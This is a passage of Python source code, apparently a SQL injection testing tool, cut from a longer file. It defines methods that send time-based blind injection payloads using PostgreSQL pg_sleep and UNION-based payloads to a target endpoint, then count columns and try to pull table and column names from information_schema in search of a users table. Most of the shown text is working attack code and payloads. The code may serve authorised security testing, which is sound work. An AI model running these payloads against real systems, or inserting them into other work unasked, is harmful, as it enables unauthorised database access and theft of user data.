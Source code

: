 ```python
        
        return False
    
    def test_time_based_injection(self, endpoint, parameter):
        """Test for time-based blind SQL injection"""
        print(f"\n[+] Testing time-based injection on {endpoint}")
        
        # Baseline timing
        start_time = time.time()
        self.session.get(f"{self.base_url}{endpoint}", params={parameter: "test"})
        baseline_time = time.time() - start_time
        
        # Time delay payloads (PostgreSQL)
        delay_payloads = [
            "test'; SELECT pg_sleep(5)--",
            "test' AND (SELECT pg_sleep(5))--",
            "test' OR (SELECT pg_sleep(5) WHERE '1'='1')--"
        ]
        
        for payload in delay_payloads:
            start_time = time.time()
            try:
                self.session.get(f"{self.base_url}{endpoint}", 
                               params={parameter: payload}, timeout=10)
                response_time = time.time() - start_time
                
                if response_time > (baseline_time + 4):  # 4+ second delay
                    print(f"  ✓ Time-based injection detected with payload: {payload}")
                    print(f"    Response time: {response_time:.2f} seconds")
                    return True
                    
            except requests.exceptions.Timeout:
                print(f"  ✓ Time-based injection detected (timeout) with payload: {payload}")
                return True
            except Exception as e:
                print(f"  ✗ Error testing payload {payload}: {e}")
        
        return False
    
    def test_union_based_injection(self, endpoint, parameter):
        """Test for UNION-based SQL injection"""
        print(f"\n[+] Testing UNION-based injection on {endpoint}")
        
        # Determine number of columns
        for col_count in range(1, 10):
            union_payload = f"test' UNION SELECT {','.join(['1'] * col_count)}--"
            
            try:
                response = self.session.get(f"{self.base_url}{endpoint}", 
                                          params={parameter: union_payload})
                
                # Check if UNION was successful (no error and different content)
                if response.status_code == 200 and "1" in response.text:
                    print(f"  ✓ UNION injection successful with {col_count} columns")
                    
                    # Test data extraction
                    extract_payload = f"test' UNION SELECT table_name,column_name,{','.join(['1'] * (col_count-2))} FROM information_schema.columns--"
                    extract_response = self.session.get(f"{self.base_url}{endpoint}", 
                                                      params={parameter: extract_payload})
                    
                    if "users" in extract_response.text.lower():
                        print(f"  ✓ Data extraction successful - found 'users' table")
```